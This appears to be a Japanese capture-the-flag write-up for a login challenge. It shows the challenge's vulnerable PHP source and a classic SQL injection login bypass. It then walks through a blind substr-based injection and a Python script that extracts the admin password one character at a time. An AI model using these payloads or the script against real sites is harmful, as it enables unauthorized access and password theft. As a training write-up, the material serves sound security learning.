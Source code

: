 以下が問題ページのスクショ。  

![](img/login1.png)  

2つのURLが与えられた。  
これは、SSL/TLS通信したい人と別に気にしない人向けのためだと思う。  

![](img/login2.png)  

ID:PASSを入力するログインページ。  

ログインページは王道のSQLi`' or 1=1; --`を試す。  

![](img/login3.png)  


```
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

続きがある。  

FLAGはadminのパスワードらしいので、パスワードのdumpを試みる。  

また、errorの出力から情報を入手する手法は以下のコードで`Login Failed`と表示されるだけなので難しい。  
```
        if (!$login)
            $err = 'Login Failed';
```

DBのカラム名（id, pass）が判明しているので**SUBSTR**関数を使用して、パスワード（FLAG）を一文字ずつ調べていく。  
SUBSTR関数は文字列から特定の部分文字列を取得するための関数。使い方は、  
`SUBSTR(文字列, 開始位置, [長さ])`  

なので以下のようにしたらパスワード（FLAG）の一文字目を調べられる。  
`' or substr((select pass from user where id = 'admin'), 1, 1) = 'F' --`

上記の場合、パスワード（FLAG）の一文字目がFだった場合はログインに成功する。  

これでパスワード（FLAG）を調べられる。  
ただ一文字ずつ調べていくのは疲れるので自動化させる。  


```
import requests
import string

FLAG = ""
max_length = 30

url = "http://ctfq.u1tramarine.blue/q6/" 

charset = string.ascii_letters + string.digits + string.punctuation

for i in range(1, max_length):
    found = False
    for char in charset:
        
        payload = f"' or substr((select pass from user where id = 'admin'), {i}, 1) = '{char}' --"

        data = {
            "id": payload,
            "pass": "dummy_password"
        }

        response = requests.post(url, data=data)

        if "Congratulations" in response.text:
            FLAG += char
            found = True
            print(f"Found: {FLAG}")
            break
    
    if not found:
        print(f"Password（FLAG): {FLAG}")
        break
```
